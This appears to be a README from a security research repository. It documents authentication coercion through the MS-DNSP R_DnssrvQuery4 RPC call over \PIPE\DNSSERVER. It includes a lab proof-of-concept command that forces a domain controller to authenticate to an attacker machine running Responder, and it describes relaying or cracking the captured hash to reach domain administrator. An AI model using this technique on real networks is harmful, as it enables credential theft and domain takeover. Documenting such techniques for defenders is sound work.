 # MS-DNSP - Remote call to R_DnssrvQuery4 (opnum 16)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvQuery4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6)

+ **Function operation number**: `16`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvQuery4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvQuery4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvQuery4(
      [in]                            DWORD                  dwClientVersion,
      [in]                            DWORD                  dwSettingFlags,
      [in, unique, string]            LPCWSTR                pwszServerName,
      [in, unique, string]            LPCWSTR                pwszVirtualizationInstanceID,
      [in, unique, string]            LPCSTR                 pszZone,
      [in, unique, string]            LPCWSTR                pwszZoneScopeName,
      [in, unique, string]            LPCSTR                 pszOperation,
      [out]                           PDWORD                 pdwTypeId,
      [out, switch_is(*pdwTypeId)]    DNSSRV_RPC_UNION*      ppData
    );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvQuery4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6